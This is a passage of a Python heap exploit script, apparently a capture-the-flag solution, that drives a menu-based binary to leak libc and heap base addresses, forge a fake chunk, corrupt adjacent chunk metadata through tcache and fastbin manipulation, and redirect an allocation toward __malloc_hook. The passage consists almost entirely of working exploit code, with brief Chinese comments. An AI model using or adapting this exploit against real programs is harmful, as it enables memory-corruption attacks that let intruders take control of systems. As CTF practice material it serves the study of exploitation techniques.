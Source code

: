 ```python
    time.sleep(0.1)
    sd(content)
def view(index,n):
    recv_menu()
    sl(b"3")
    ru(b"[?] please input chunk_idx: ")
    sl(str(index).encode())
    return rc(n)
for i in range(11):
    add(i,0x100)
for i in range(10):
    delete(i)
# 0-7是占用状态
for i in range(7):
    add(i,0x100)
add(7,0x100)
res = view(7,0x10)
base_libc = u64(res[:8])-2019072
print("base_libc:",hex(base_libc))
res = view(3,0x10)
base_heap = u64(res[:8]) - 1216
print("base_heap:",hex(base_heap))
# 开始构造一个chunk处于fastbin中情况
for i in range(8):
    delete(i)
delete(10)
delete(11)

print("占用的已经删除")
# 要实现tcache满 然后fastbin中存在
for i in range(7):
    add(i,0x78)
for i in range(7,14):
    add(i,0x120)
# prev_size size fd bk
chunk_addr = base_heap
fakechunk = b"a"*16+p64(0)+p64(721)+p64(base_heap+5696)+p64(base_heap+5696)+p64(base_heap+5664)*5
add(14,0x20)
# 合并chunk
add(15,0x120)
edit(15,fakechunk)
add(16,0x78)
# 用于覆写
add(17,0x138)
# 用于合并
add(18,0x120)
add(19,0x20)
for i in range(14):
    delete(i)
delete(15)
delete(16)
# delete(1)
delete(19)
edit(17,b"a"*0x130+p64(720)+b"\x30")
print("base_heap:",hex(base_heap))
print("base_libc:",hex(base_libc))

delete(18)
print("base_heap:",hex(base_heap))
print("base_libc:",hex(base_libc))
add(20,0x170)
# 构造到malloc hook
edit(20,b"a"*0x100+p64(0x130)+p64(0x80)+p64(base_libc+0x1ecb70-0x10))
```